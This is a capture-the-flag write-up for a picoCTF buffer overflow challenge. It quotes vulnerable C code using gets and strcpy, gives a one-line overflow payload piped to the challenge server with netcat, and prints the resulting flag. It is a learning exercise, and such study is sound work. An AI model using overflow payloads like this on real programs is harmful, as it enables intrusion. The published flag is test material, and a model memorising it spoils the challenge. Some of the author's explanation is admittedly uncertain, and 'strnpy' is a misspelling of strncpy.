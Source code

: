 ## Current progress: Done

A not strip ELF 32-bit executable and its c source code was given.

As the challenge name suggest, this is likely a buffer overflow problem.

The point of focus in our c code is this `vuln` function:
```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

and part of the `main` function:
```
char buf1[100];
gets(buf1); 
vuln(buf1);
```

Copying an array of 100 characters into one that's 16 characters is not a good idea.
In fact, one should never use `strcpy` and should use `strnpy` instead.
Here is a [YouTube video](https://youtu.be/7mKfWrNQcj0) by Jacob Sorber explains why not to ever use `strcpy`.

We `chmod +x vuln` and then printing "A"  `python -c 'print("A" * 20)' | ./vuln` which gives us our test `flag.txt`

Digging deeper with `objdump -t`. I think that it is because the buffer overflows from the `completed.7623` shown here:
![objdump](objdump.jpg)
However, I'm not a 100% sure if this is the correct assumption.

Anyway, we can adapt the code to be piped into netcat as follow:
`python -c 'print("A" * 20)' | nc saturn.picoctf.net 55986`

This gives use the flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}`